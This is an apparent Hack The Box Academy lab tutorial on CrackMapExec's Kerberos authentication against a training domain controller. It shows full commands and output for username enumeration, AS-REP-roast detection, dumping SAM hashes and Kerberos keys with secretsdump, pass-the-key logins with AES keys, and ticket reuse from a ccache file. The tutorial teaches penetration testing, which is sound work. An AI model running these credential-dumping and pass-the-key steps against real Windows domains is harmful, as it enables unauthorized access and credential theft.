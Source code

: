 # Kerberos Authentication

At the time of writing, CrackMapExec supports Kerberos Authentication for the `SMB`, `LDAP`, and `MSSQL` protocols. There are two (2) ways of using Kerberos Authentication:

1. Using the `KRB5CCNAME` env name to specify the `ccache` file. The [Pass the Ticket (PtT) from Linux](https://academy.hackthebox.com/module/147/section/1657) section in the [Password Attacks](https://academy.hackthebox.com/module/details/147) academy module discusses using Kerberos from Linux.
2. Starting in CrackMapExec 5.4.0, we no longer need to use the `KRB5CCNAME` environment variable with a ticket for Kerberos authentication. We can use a username and password or username and hash.

An essential element to consider when using Kerberos authentication in Linux is that the computer we are attacking needs to resolve the FQDN of the domain and the target machine. If we are in an internal network, we can configure our computer to make domain name resolutions to the company's DNS, but this is not the case. We cannot configure the DNS, and we will need to add, manually the FQDN for the domain controller and our target machine in the `/etc/hosts` file.

### **Setting Up the /etc/hosts File**

```shell-session
$ echo -e "\n10.129.203.121 dc01.inlanefreight.htb dc01 inlanefreight inlanefreight.htb" | sudo tee -a /etc/hosts

10.129.203.121 dc01.inlanefreight.htb dc01 inlanefreight inlanefreight.htb
```

```shell-session
$ cat /etc/hosts

# Host addresses
127.0.0.1  localhost
127.0.1.1  cyberspace
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
10.129.203.121 dc01.inlanefreight.htb dc01 inlanefreight inlanefreight.htb
```

Let's try using CrackMapExec with Kerberos authentication.

***

## Username and Password - Kerberos Authentication

When we use CrackMapExec with a username and password or username and hash without the option `-k` or `--kerberos`, we perform NTLM authentication. We can use Kerberos authentication instead if we use the Kerberos option.

### **Kerberos Authentication**

```shell-session
$ crackmapexec smb 10.129.203.121 -u robert -p Inlanefreight01! --kerberos --shares

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\robert:Inlanefreight01! 
SMB         10.129.203.121  445    DC01             [+] Enumerated shares
SMB         10.129.203.121  445    DC01             Share           Permissions     Remark
SMB         10.129.203.121  445    DC01             -----           -----------     ------
SMB         10.129.203.121  445    DC01             ADMIN$          READ            Remote Admin
SMB         10.129.203.121  445    DC01             C$              READ,WRITE      Default share
SMB         10.129.203.121  445    DC01             carlos                          
SMB         10.129.203.121  445    DC01             D$              READ,WRITE      Default share
SMB         10.129.203.121  445    DC01             david                           
SMB         10.129.203.121  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.203.121  445    DC01             IT              READ,WRITE      
SMB         10.129.203.121  445    DC01             john                            
SMB         10.129.203.121  445    DC01             julio                           
SMB         10.129.203.121  445    DC01             linux01         READ,WRITE      
SMB         10.129.203.121  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.203.121  445    DC01             svc_workstations                 
SMB         10.129.203.121  445    DC01             SYSVOL          READ            Logon server share
```

***

## Identifying Users with Kerberos Authentication

With the new Kerberos authentication implementation, CrackMapExec has all the ingredients to build its own [Kerbrute](https://github.com/ropnop/kerbrute) inside CME. This means that CME can tell if a user exists or not on the domain and if this user is configured not to require Kerberos pre-authentication (ASREPRoasting). Let's see this in action with the following accounts: `account_not_exist`, `julio`, and `robert`.

```shell-session
$ crackmapexec smb 10.129.203.121 -u account_not_exist julio robert -p OtherPassword --kerberos

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\account_not_exist: KDC_ERR_C_PRINCIPAL_UNKNOWN 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\julio: KDC_ERR_PREAUTH_FAILED 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\robert account vulnerable to asreproast attack
```

As we can see, we have three different errors, as [Kerbrute](https://github.com/ropnop/kerbrute) CrackMapExec sends TGT requests with no pre-authentication if the KDC responds with a `KDC_ERR_C_PRINCIPAL_UNKNOWN` error, the username does not exist. However, if the KDC prompts for pre-authentication, it will respond with a `KDC_ERR_PREAUTH_FAILED` error, meaning that the username exists. Finally, if we see an error `account vulnerable to asreproast attack`, it's susceptible to AESREPoast attacks, as we previously see in the section [Finding AESREPRoast Accounts](https://academy.hackthebox.com/module/84/section/803).

This does not cause login failures, so it will not lock out any accounts, but it will generate a Windows [event ID 4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) if Kerberos logging is enabled.

***

## Using AES-128 or AES-256

We can also use `AES-128` or `AES-256` hashes for Kerberos Authentication, tools such as [Secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) from [Impacket](https://github.com/SecureAuthCorp/impacket), can usually retrieve those types of hashes. If we use AES-128 or AES-256, our traffic will look more like regular Kerberos traffic, representing an operational advantage (opsec). Let's use Secretsdump and then use the AES256 to authenticate.

### **Authentication with AES256**

```shell-session
$ secretsdump.py 

INLANEFREIGHT.HTB/julio:Password1@10.129.203.121
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xbfb21eeffaaa8abaf5365adf6562a1a4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::

<SNIP>

[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:f535588e917cf644294519f345f5e14c852d6ae4d9c6fbfefc54be82b84bb35c
Administrator:aes128-cts-hmac-sha1-96:6a1b10171f2f12d7d6fbb31e1823617b
Administrator:des-cbc-md5:b38a08d637d9e06e
krbtgt:aes256-cts-hmac-sha1-96:b67cba3eccadb27d482929f88ace038f9a5b73b6bbc3af93f40575cd6b5fb02c
krbtgt:aes128-cts-hmac-sha1-96:d6a6464fdf51d2bd587366254dcd34e7
krbtgt:des-cbc-md5:73f701bcf4d5d96e
inlanefreight.htb\julio:aes256-cts-hmac-sha1-96:77da7057b42509a1d086f4f58e7252ad673b1940be2f741c496c577d10e4df76
inlanefreight.htb\julio:aes128-cts-hmac-sha1-96:ae1b6f722a8857a60c781dd1c12dae4d

<SNIP>
```

```shell-session
$ crackmapexec smb 10.129.203.121 -u julio --aesKey 77da7057b42509a1d086f4f58e7252ad673b1940be2f741c496c577d10e4df76

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:77da7057b42509a1d086f4f58e7252ad673b1940be2f741c496c577d10e4df76 (Pwn3d!)
```

***

## CCache file - Kerberos Authentication

A [credential cache (or `ccache`)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) holds Kerberos credentials. They generally remain valid as long as the user’s session lasts, so authenticating to services multiple times (e.g., connecting to a web or mail server more than once) doesn’t require contacting the KDC every time.

In most cases, Linux machines store Kerberos tickets as [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html), the way the systems use the tickets is through the environment variable `KRB5CCNAME`, which indicates the path of the ccache file. Let's generate a ticket (ccache file) for the user `robert` and authenticate to `DC01`.

To generate the ticket, we will use the impacket tool [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) and set the environment variable `KRB5CCNAME` to the path of the ccache file generated by `getTGT.py`.

### **Ticket Granting Tickets**

```shell-session
$ getTGT.py inlanefreight.htb/robert:'Inlanefreight01!' -dc-ip 10.129.203.121

Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in robert.ccache
```

```shell-session
$ export KRB5CCNAME=$(pwd)/robert.ccache
```

To use the environment variable `KRB5CCNAME` as our Kerberos authentication method, we need to use the option `--use-kcache`. The username and password options are not required.

### **Using ccache File as Kerberos Authentication Method (SMB Protocol)**

```shell-session
$ crackmapexec smb 10.129.203.121 --use-kcache

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\robert from ccache
```

### **Using ccache File as Kerberos Authentication Method (LDAP Protocol)**

```shell-session
$ crackmapexec ldap 10.129.203.121 --use-kcache

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
LDAP        10.129.203.121  389    DC01             [+] inlanefreight.htb\robert from ccache
```

To use Kerberos Authentication with the MSSQL protocol, we need to specify the computer name or FQDN as a target instead of the IP address. This is because, behind the scenes, the `MSSQL` protocol doesn't convert the IP to the FQDN, but the `SMB` and `LDAP` protocols do.
